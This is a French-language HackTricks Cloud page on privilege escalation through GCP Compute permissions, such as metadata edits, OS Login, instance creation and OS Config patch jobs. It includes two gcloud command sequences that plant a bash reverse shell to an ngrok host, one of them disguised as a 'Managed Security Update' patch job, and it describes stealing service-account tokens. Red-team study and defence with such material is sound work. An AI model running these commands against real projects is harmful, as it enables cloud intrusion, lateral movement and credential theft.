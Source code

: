 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (réseau) dans GCP, consultez :

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Notez que pour effectuer toutes les attaques d'escalade de privilèges qui nécessitent de modifier les métadonnées de l'instance (comme ajouter de nouveaux utilisateurs et clés SSH), il est **nécessaire d'avoir des permissions `actAs` sur le SA attaché à l'instance**, même si le SA est déjà attaché !
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Avec cette permission, vous pouvez **modifier** les informations de **métadonnées** d'une **instance** et changer les **clés autorisées d'un utilisateur**, ou **créer** un **nouvel utilisateur avec des** permissions sudo. Par conséquent, vous pourrez vous connecter via SSH à n'importe quelle instance VM et voler le compte de service GCP avec lequel l'instance fonctionne.\
Limitations :

* Notez que les comptes de service GCP exécutés dans des instances VM ont par défaut un **champ d'application très limité**
* Vous devrez être **capable de contacter le serveur SSH** pour vous connecter

Pour plus d'informations sur la façon d'exploiter cette permission, consultez :

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Vous pourriez également effectuer cette attaque en ajoutant un nouveau script de démarrage et en redémarrant l'instance :
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Cette permission donne les **mêmes privilèges que la permission précédente** mais sur des instances spécifiques au lieu d'un projet entier. Les **mêmes exploits et limitations que pour la section précédente s'appliquent**.

### `compute.instances.setIamPolicy`

Ce type de permission vous permettra de **vous accorder un rôle avec les permissions précédentes** et d'escalader les privilèges en les abusant.

### **`compute.instances.osLogin`**

Si **OSLogin est activé dans l'instance**, avec cette permission vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous **n'aurez pas de privilèges root** à l'intérieur de l'instance.

{% hint style="success" %}
Pour vous connecter avec succès avec cette permission à l'intérieur de l'instance VM, vous devez avoir la permission `iam.serviceAccounts.actAs` sur le SA attaché à la VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Si **OSLogin est activé dans l'instance**, avec cette permission vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous aurez **des privilèges root** à l'intérieur de l'instance.

{% hint style="success" %}
Pour vous connecter avec succès avec cette permission à l'intérieur de l'instance VM, vous devez avoir la permission `iam.serviceAccounts.actAs` sur le SA attaché à la VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Il est possible de **créer une machine virtuelle avec un compte de service assigné et de voler le token** du compte de service en accédant aux métadonnées pour escalader les privilèges.

Le script d'exploit pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si vous avez les **permissions `osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, vous pouvez créer un [**travail de patch ou un déploiement**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Cela vous permettra de vous déplacer latéralement dans l'environnement et d'obtenir une exécution de code sur toutes les instances de calcul au sein d'un projet.

Notez qu'à l'heure actuelle, vous **n'avez pas besoin de la permission `actAs`** sur le SA attaché à l'instance.

Si vous souhaitez exploiter cela manuellement, vous devrez créer soit un [**travail de patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ou** [**un déploiement**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Pour un travail de patch, exécutez : 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Pour déployer un déploiement de correctif :
```bash
gcloud compute os-config patch-deployments create <name> ...
```
L'outil [patchy](https://github.com/rek7/patchy) pouvait être utilisé dans le passé pour exploiter cette mauvaise configuration (mais maintenant, il ne fonctionne plus).

**Un attaquant pourrait également en abuser pour la persistance.**

### `compute.machineImages.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour l'image de calcul.

### `compute.snapshots.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour un instantané de disque.

### `compute.disks.setIamPolicy`

**Accordez-vous des permissions supplémentaires** pour un disque.

### Contourner les portées d'accès

En suivant ce lien, vous trouverez quelques [**idées pour essayer de contourner les portées d'accès**](../).

### Élévation de privilèges locale dans une instance GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
